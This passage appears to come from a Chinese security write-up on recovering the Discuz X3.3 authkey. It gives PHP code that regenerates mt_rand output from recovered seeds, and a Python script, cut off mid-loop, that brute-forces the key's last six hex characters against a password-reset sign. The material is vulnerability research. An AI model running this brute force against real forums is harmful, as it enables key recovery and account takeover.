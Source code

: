 ```
	if(preg_match("/seed = (\d)+/", $b, $matach)){
		$m = $matach[0];
	}else{
		continue;
	}
	// var_dump(substr($m,7));
	mt_srand(substr($m,7));
	fwrite($fp2, random(10)."\n");
}
fclose($fp);
fclose($fp2);
```

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16**6*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php` 65行生成用于验证的sign值。

![image.png-109.2kB][4]

跟随make_getpws_sign函数进入`/source/function/function_member.php`
![image.png-61.1kB][5]

然后进入dsign函数，配合authkey生成结果
![image.png-50.8kB][6]

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

脚本如下
```
# coding=utf-8

import itertools
import hashlib
import time

def dsign(authkey):
	url = "http://127.0.0.1/dz3.3/"
	idstring = "vnY6nW"
	uid = 2
	uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)

	url_md5 = hashlib.md5(uurl+authkey)
	return url_md5.hexdigest()[:16]


def main():
	sign = "af3b937d0132a06b"

	str_list = "0123456789abcdef"

	with open('result2.txt') as f:
		ranlist = [s[:-1] for s in f]

	s_list = sorted(set(ranlist), key=ranlist.index)

	r_list = itertools.product(str_list, repeat=6)

	print "[!] start running...."
	s_time = time.time()

	for j in r_list:
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/27by3pv6j16qauhgebbrapvr/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vd44ejapmbdfwnq8z8vklxb1/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/737c9gqg6cdtlo4aryxpnxwe/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fu70qeqhk55gw55xm0qwkbk2/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fdmabv7avbqd1w5libd3j0g3/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fmwrfzfbm4jjrv1nsm8e92r0/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n882uz5x3qrymr6ljsb89brm/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dgu0bdnhje2u2caxy0q5bmgs/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ivok9agi1lurxhe4xkst4vyj/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jeddzeumksc2zm7ioph0ybk3/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g0fipnw0vrrsojjmnfsc9mtg/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vl37a7f8giy88mbhndxkbb9x/image.png